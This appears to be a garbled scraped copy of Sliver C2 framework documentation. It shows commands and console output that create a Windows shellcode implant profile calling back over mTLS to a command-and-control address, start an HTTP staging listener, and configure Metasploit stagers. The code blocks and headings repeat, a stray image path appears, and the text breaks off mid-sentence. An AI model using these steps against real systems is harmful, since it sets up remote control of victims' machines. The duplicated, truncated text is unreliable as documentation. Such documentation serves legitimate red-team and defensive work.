 ## Overview
## Example
The following command creates a new profile that we will use for our staging listener:
```
sliver > profiles new --mtls 192.168.122.1 --format shellcode win-shellcode

[*] Saved new profile win-shellcode

sliver > profiles

Name           Platform       Command & Control              Debug  Format      Obfuscation   Limitations
====           ========       =================              =====  ======      ===========   ===========
win-shellcode  windows/amd64  [1] mtls://192.168.122.1:8888  false  SHELLCODE   enabled
```

We can now create a staging listener and link it to the profile:
```
sliver > stage-listener --url http://192.168.122.1:1234 --profile win-shellcode

[*] No builds found for profile win-shellcode, generating a new one
[*] Job 1 (tcp) started
sliver > jobs

ID  Name  Protocol  Port
==  ====  ========  ====
1   http  tcp       1234
2   mtls  tcp       8888
```

### Metasploit: Bring Your Own Stager
#### Generating an HTTP stager
If you want to use [stagers generated by the Metasploit Framework with Sliver](https://www.rapid7.com/blog/post/2022/09/16/metasploit-weekly-wrap-up-176/) (using `msfconsole` or `msfvenom`), you will need to pass the additional `--prepend-size` flag to `stage-listener`, like this:
```
sliver > stage-listener --url http://192.168.122.1:1234 --profile win-shellcode --prepend-size
```

`generate stager`

`
sliver > profiles new --mtls 192.168.122.1 --format shellcode win-shellcode

[*] Saved new profile win-shellcode

sliver > profiles

Name           Platform       Command & Control              Debug  Format      Obfuscation   Limitations
====           ========       =================              =====  ======      ===========   ===========
win-shellcode  windows/amd64  [1] mtls://192.168.122.1:8888  false  SHELLCODE   enabled
`

`
sliver > stage-listener --url http://192.168.122.1:1234 --profile win-shellcode

[*] No builds found for profile win-shellcode, generating a new one
[*] Job 1 (tcp) started
sliver > jobs

ID  Name  Protocol  Port
==  ====  ========  ====
1   http  tcp       1234
2   mtls  tcp       8888
`

`

### Metasploit: Bring Your Own Stager

**Using Metasploit stagers is only supported on Windows.**

#### Generating an HTTP stager
If you want to use [stagers generated by the Metasploit Framework with Sliver](https://www.rapid7.com/blog/post/2022/09/16/metasploit-weekly-wrap-up-176/) (using `

`
sliver > stage-listener --url http://192.168.122.1:1234 --profile win-shellcode --prepend-size
`

`

**Remark**: At the moment, the `

